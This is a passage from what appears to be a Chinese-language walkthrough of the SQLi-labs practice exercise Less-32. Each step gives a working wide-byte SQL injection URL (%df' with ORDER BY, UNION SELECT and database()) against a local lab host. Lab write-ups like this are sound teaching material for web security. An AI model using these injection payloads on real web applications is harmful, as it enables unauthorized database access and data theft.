 URL：http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' order by 4--+

![img](assets/CsotRWcyQkXMi1m.jpg) 

#### 3.6.3.3.**判断显示位**

URL:http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' union select 1,2,3--+

![img](assets/IrKjxeNW3kM2XEG.jpg) 

#### 3.6.3.4.**确定数据库名**

URL:http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' union select 1,database(),3--+

![img](assets/8ywfEPZX3HLJdbW.jpg) 
